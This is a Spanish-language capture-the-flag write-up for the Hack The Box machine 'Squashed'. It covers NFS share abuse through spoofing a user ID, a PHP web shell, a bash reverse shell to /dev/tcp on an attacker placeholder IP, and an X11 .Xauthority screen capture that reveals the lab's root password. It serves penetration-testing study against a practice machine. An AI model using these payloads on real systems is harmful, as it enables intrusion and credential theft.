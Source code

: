 ```yaml
---
layout: single
title: Squashed - Hack The Box
excerpt: "En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario." 
date: 2023-04-17
classes: wide
header:
  teaser: /assets/images/HTB/writeup-squashed/Squashed.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Easy
  - CFTs
tags:
  - Privilege Escalation
  - Pentesting
  - Linux
  - NFS mount
---
```


![](/assets/images/HTB/writeup-squashed/Squashed.png)

***


**INDICE**

1. [Introducción](#Introducción)
2. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
3. [Puertos](#Puerto2049).
4. [Escalada de Privilegios .Xauthority](☣️). 


    
***


## Introducción [#](Introducción) {#Introducción}


"En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario."







## Reconocimiento de Puertos [🔍]

Como siempre antes de escanear los puertos con **Nmap** le hacemos un <span style="color:red"> ping </span> a la maquina victima para ver si esta viva y nos responde.


![](/assets/images/HTB/writeup-squashed/TrazaICMP.png)


En este caso nos responde y me arroja una **TTL** de 63, por lo que acercarse a 64, me enfrento a una maquina <span style="color:green"> Linux </span>.

| TTL    | Sistema Operativo | 
| :----- | :------- | 
| 64     | Linux    | 



Una vez que ya me comunique con la maquina y extraje el dato que es se trata de una maquina Linux, procedo a desplegar la herramienta Nmap.


```bash
# Primer con nmap  para sacar los puertos abiertos de la máquina
--------------------------------------------------------------
nmap -p- -n --open -sV --min-rate 5000 -vvv -n -Pn 10.10.11.191 
```

![](/assets/images/HTB/writeup-squashed/nmap1.png)


```bash
# Segundo escaneo con los scripts default de nmap y tambien sacamos  la Versión y Servicio que tiran los puertos escaneados anteriormente 
--------------------------------------------------------------
nmap -sC -sV -p22,80,111,2049,39033 10.10.11.191
```

![](/assets/images/HTB/writeup-squashed/nmap2.png)


## Puerto 2049 


Por lo que veo obtengo esta información, me doy cuenta que hay petisiones **nfs** en el **Puerto 2049**, al ser mi primera maquina de <span style="color:green"> HackTheBox </span>, acudo a <span style="color:red"> HackTricks </span>
para saber sobre NFS.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)



```bash
# Primero hay que avriguar  que carpetas tiene el servidor disponibles para montar, lo averiguamos con este comando
--------------------------------------------------------------------------------
showmount -e <IP>
```

![](/assets/images/HTB/writeup-squashed/showmount.png)

Obtengo estos dos directorios:

|  /home/ross  |  /var/www/html  |

Y para montar estos dos directorios, me creo dos directorios llamados **/mnt/ross** y **/mnt/web_server** en el directorio **/mnt** y luego los monto


```bash
# Creo los directorios
----------------------
sudo mkdir /mnt/ross
sudo mkdir /mnt/web_server
# Monto los directorios en cada carpeta
sudo mount 10.10.11.191:/home/ross /mnt/ross
sudo mount 10.10.11.191:/var/www/html /mnt/web_server
```

Una vez que hecho esto, listo los directorios a ver que encuentro...


![](/assets/images/HTB/writeup-squashed/listadodedirectorios.png)


Veo que existe un archivo  <span style="color:red">Passwords.kdbx</span> que  básicamente su extension <span style="color:red">.kdbx</span> indica que es la base de datos que usa keepass para almacenar las contraseñas, tambien se ve que en directorio **./we_server** no despliega nada, voy a ver si puedo acceder a el...


![](/assets/images/HTB/writeup-squashed/cdwebserver.png)

Ok no tengo acceso a el, voy a ver que usuario tiene acceso el directorio


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

Ok pensando un poco podria burlar el **user1** creando uno en mi maquina 


![](/assets/images/HTB/writeup-squashed/directorioswebserver.png)

Como estoy en el directorio del servidor web y veo el archivo **index.html** , probare intentar cargar un archivo .php para poder poder ejecutar cualquier comando en la **URL**

```bash
# Script php
----------------------
<?php   
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Una ves ejecutado este script puedo ejecutar cualquier comando en la URL

![](/assets/images/HTB/writeup-squashed/cmd=ls-l.png)

Entonces puedo crear una Reverse Shell, pero antes me pongo en escucha con el puerto 1337 (en mi caso)



```bash
# Reverse Shell, encodear co el signo % al signo &
----------------------
bash -c "bash -i >%26 /dev/tcp/<IP ATACANTE>/1337 0>%261"
```

![](/assets/images/HTB/writeup-squashed/reverseshell.png)

Antes de continuar actualizo la tty 

```bash
> script /dev/null -c bash
--------------------------
> Ctrl+z
--------------------------
> stty raw -echo; fg 
        reset xterm
--------------------------
export TERM=xterm
export SHELL=bash
```



# Escalada de Privilegios .Xauthority ☣️


Para <span style="color:red">conseguir la escalada de privilegios sigo estos pasos</span>:

* Primero me creo otro usuario para tener acceso al archivo .Xauthority.

* Pero no tegno acceso al archivo. 


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

* Monto un servidor http con python3 en el puerto 8080 en el usuario que me cree hace un momento.

```bash
# Servidor python3 
------------------
python3 -m http.server 8080
```

* Una vez ya descargado el archivo **.Xauthority**, con ayuda HackTricks busco el comando para poder leer dicho archivo.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)


No lo puedo leer, entonces saco un screenshot a la seccion keepas abierta del usuario 



```bash
# Ejecuto el comando sacado de HakcTricks y lo guardo como archivo screenshot.xwd
------------------
xwd -root -screen -silent -display :0 > screenshot.xwd
```


![](/assets/images/HTB/writeup-squashed/Screenshotxwd.png)


Lo siguiente que hago es migrar a mi usuario de Kali para ponerme en escucha en el puerto 443, haci enviarme el archivo screenshot.xwd, dicho archivo se encuentra en el usuario **alex**


```bash
# Covierto el archivo .xwd a .png (esto comando se encuentra en HackTricks, el enlace anteriormente mencionado)
------------------
convert screenshot.xwd screenshot.png
```


![](/assets/images/HTB/writeup-squashed/convert.png)

Abro el screenshot y listo ahi se ve la **password**


![](/assets/images/HTB/writeup-squashed/screenshot.png)


Por ultimo me dirijo al usuario alex y con las **password** <span style="color:red">cah$mei7rai9A</span> para comvertirme en usuario **root**



![](/assets/images/HTB/writeup-squashed/rootalex.png)

Ya tenemos acceso a la <span style="color:red"> **Flag**
  
  
  

